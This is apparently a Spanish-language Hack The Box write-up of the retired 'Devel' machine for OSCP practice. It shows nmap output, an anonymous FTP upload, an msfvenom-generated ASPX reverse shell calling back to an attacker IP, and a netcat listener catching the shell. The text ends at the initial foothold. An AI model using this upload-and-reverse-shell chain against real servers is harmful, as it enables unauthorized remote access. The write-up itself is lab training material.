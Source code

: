 ```yaml
---
layout: post
title:  "OSCP Path ~ Devel de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada DEVEL siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, IIS, Upload Files, privesc Maquinas Retiradas, Writeup, Windows Hacking
---
```


# Devel ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.5      "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 08-22-21  08:57PM                    6 test.html
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Procedemos a enumerar el servicio FPT y ver si podemos bajar los recursos disponibles y subir archivos.
Descargamos los recursos disponibles y verificamos que podemos subir archivos como el usuario `Anonymous`.

Procedemos a subir un archivo llamado prueba.txt que subimos por el ftp, para ver si podemos apuntar desde la pagina web ya que vemos recursos web almacenados en el servicio FTP que podrian ser del servicio HTTP
```bash
# ftp 10.10.10.5                                                                                                                                                                                              1 ⚙
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put prueba.txt
local: prueba.txt remote: prueba.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

Lanzamos un  `Whatweb`
```bash
# whatweb http://10.10.10.5                                                                                                                                                                                  1 ⚙
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET
```
Procedemos a hacer Fuzzing a nivel web. 
Al ser un servidor IIS 7-5 ssabemos que la extension de los archivos puede ser `aspx`
No encontramos Directorios potenciales.. 

Probamos a intentar apuntar al archivo que acabamos de subir al fpt llamdo `prueba.txt`
```bash
# curl -s -X GET "http://10.10.10.5/prueba.txt"
Se esta tensando que te cagas .. Ojito ..
```

Vemos que es nuestro archivo. Sabiendo esto y con las extensiones que trabaja el CMS IIS procedemos a crearnos una Reverse-shell con la herramienta `msfvenom`
```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.21 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2696 bytes
```
Y ahora que ya la tenemos vamos a ver si atraves del servicio FTP podemos subirla sin problema para luego apuntar a la misma y conseguir acceso a la maquina victima
```bash
# ftp 10.10.10.5  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2731 bytes sent in 0.00 secs (74.4138 MB/s)
```
Procedemos a ponernos a la escucha en una session con `netcat` para recibir cualquier conexion entrante por el puerto 443

Procedemos a apuntar a la dirrecion HTTP + nuestro archivo shell.aspx
```bash
# curl -s -X GET "http://10.10.10.5/shell.aspx"
```
Recibimos la conexion correctamente:
```bash
# rlwrap nc -vlnp 443                                                                                                                                                                                         1 ⚙
listening on [any] 443 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv> whoami
iis apppool\web
```

